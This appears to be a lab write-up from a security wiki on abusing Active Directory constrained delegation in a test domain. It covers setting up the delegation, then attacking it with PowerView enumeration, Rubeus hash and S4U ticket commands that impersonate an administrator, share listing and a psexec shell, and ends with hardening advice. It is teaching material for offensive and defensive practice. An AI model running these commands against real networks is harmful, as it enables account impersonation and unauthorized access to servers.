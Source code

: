 ```yaml
---
description: >-
  If a user or computer has constrained delegation configured, it's possible to
  impersonate any domain user and authenticate to a service that the user
  account is trusted to delegate to. It is also poss
---
```


# Constrained Delegation

## Configuring

### Prerequisite&#x20;

User `sa_transfer` creation from:

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

### Configuring

1. Login on `DC02` with the username `Administrator` and password `Welcome01!`.
2. Open PowerShell and execute the following command to set a SPN for the user sa\_transfer:

```
setspn -A HTTP/FILE01.amsterdam.bank.local amsterdam\sa_transfer
```

![](<../../../.gitbook/assets/image (55).png>)

3\. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (37).png>)

4\. Open the "Users" directory and right click the `sa_transfer` user and select "Properties".

5\. Open the "Properties" tab and select "Trust this user for delegation to specified services only". Then click "Use any authentication protocol" and select "Add".

![](<../../../.gitbook/assets/image (60) (1).png>)

6\. Select "Users or Computers" and type `FILE01` and click "Check Names" and "OK".

![](<../../../.gitbook/assets/image (11).png>)

7\. Select the "cifs" service and click on "OK". Click on "Apply" and "OK" and the delegation is configured.

![](<../../../.gitbook/assets/image (58) (1).png>)



## Attacking

### How it works

If a user or computer has constrained delegation configured, it's possible to impersonate any domain user and authenticate to a service that the user account is trusted to delegate to. It is also possible to create tickets for other services since they aren't checked.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

### Executing the attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../.gitbook/assets/image (16) (1) (1).png>)

3\. Execute the following query to enumerate all users with constrained delegation and select the samaccountname and msds-allowedtodelegateto attributes.

```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

![](<../../../.gitbook/assets/image (73).png>)

4\. The user `sa_transfer` can delegate access to `cifs\FILE01.amsterdam.bank.local`. To abuse this we need access to the user, luckily we could reset the password earlier.

{% content-ref url="../acl-abuses/forcechangepassword.md" %}
[forcechangepassword.md](../acl-abuses/forcechangepassword.md)
{% endcontent-ref %}

5\. First we need to calculate the hash of the user, for this we can use Rubeus, using the following command:

```
.\Rubeus.exe hash /password:'2i^t#fFpL' /user:sa_transfer /domain:amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (76) (1) (1) (1).png>)

6\. The next step is too request a TGT and then request two service tickets for CIFS, HOST and RPCSS. So we can interact with the file system and psremoting for the fileserver. The easiest way to do this is using Rubeus.

```
.\Rubeus.exe s4u /user:sa_transfer /rc4:58A0D6C796769B84609E5F68C2213F96 /impersonateuser:administrator /domain:amsterdam.bank.local /msdsspn:cifs/FILE01.amsterdam.bank.local /altservice:CIFS,HOST,RPCSS /file01.amsterdam.bank.local /ptt
```

{% hint style="info" %}
* Possbible alt services:&#x20;
  * CIFS for directory browsing
  * HOST and RPCSS for WMI
  * HOST and HTTP for PowerShell Remoting/WINRM
  * LDAP for dcsync
* Another thing to keep in mind is that you can impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
{% endhint %}



![](<../../../.gitbook/assets/image (54) (1).png>)

7\. When we list our tickets now we can see that we have three service tickets:

![](<../../../.gitbook/assets/image (48) (1).png>)

8\. Since we have a CIFS ticket we can list the `C` drive of the fileserver `FILE01`:

```
ls \\file01.amsterdam.bank.local\c$
```

![](<../../../.gitbook/assets/image (27).png>)

9\. We are unable to use the RPC and HOST tickets for pssession since the target server doesn't have it enabled. We can get a shell with the CIFS ticket by using psexec from sysinternals:

```
.\psexec64.exe \\file01.amsterdam.bank.local cmd.exe
```

![](<../../../.gitbook/assets/image (75) (1) (1).png>)

## Defending

### Recommendations

* Tightly secure and monitor the user of AD objects with delegation set.
  * Set strong passwords and rotate them periodically.
  * Limit logons to systems.
  * Harden the systems these accounts are used.
* Add the flag "this account is sensitive and cannot be delegated"
* Add all high privileged accounts to the protected users group.

{% content-ref url="../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/psexec" %}
